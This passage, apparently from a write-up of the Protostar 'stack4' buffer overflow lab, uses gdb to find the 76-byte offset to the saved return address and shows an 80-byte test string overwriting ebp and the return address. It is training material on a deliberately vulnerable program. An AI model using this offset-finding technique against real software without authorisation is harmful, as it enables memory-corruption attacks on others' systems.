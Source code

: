 ```bash
(gdb) c
Continuing.

Breakpoint 3, 0x08048418 in main (argc=1, argv=0xbffff854)
    at stack4/stack4.c:15
15	in stack4/stack4.c
(gdb) x $esp
0xbffff750:	0xbffff760
```
- the pointer address for storing the input string from gets is located at 0xbffff760 (since the argument to gets is the buffer address and it is passed at the top of the stack as we know from previous section). 
```txt
address_to_override - current_stack_address = number_of_bits_to_override 
0xbffff7ac - 0xbffff760 = 0x4C (76 bytes)
```
we know that the difference between our intended location and *input buffer address is 76 bytes*, so if we input 80 bytes, **the 77th-80th bytes will overwrite the return address**. 

```bash
(gdb) c
	Continuing.
	12345678901234567890123456789012345678901234567890123456789012345678901234567890

	Breakpoint 4, main (argc=0, argv=0xbffff854) at stack4/stack4.c:16
	16	in stack4/stack4.c
(gdb) x/24x $esp
	0xbffff750:	0xbffff760	0xb7ec6165	0xbffff768	0xb7eada75
	0xbffff760:	0x34333231	0x38373635	0x32313039	0x36353433
	0xbffff770:	0x30393837	0x34333231	0x38373635	0x32313039
	0xbffff780:	0x36353433	0x30393837	0x34333231	0x38373635
	0xbffff790:	0x32313039	0x36353433	0x30393837	0x34333231
	0xbffff7a0:	0x38373635	0x32313039	0x36353433	0x30393837
(gdb) info r $ebp
	ebp            0xbffff7a8	0xbffff7a8


(gdb) c
	Continuing.

	Breakpoint 5, 0x0804841e in main (argc=Cannot access memory at address 0x3635343b
	) at stack4/stack4.c:16
	16	in stack4/stack4.c



(gdb) info r $ebp
ebp            0x36353433	0x36353433 ## As u see its over written
```

We continue and enter an `80 byte` long pattern and can see the repeated pattern visible on the stack and the last `4 bytes` `7890` (`0x30393837` in little endian hex format) have overwritten the address. We also see that if we stop after the leave instruction, the value `0x36353433` from address `0xbffff7a8` has been popped back into ebp.
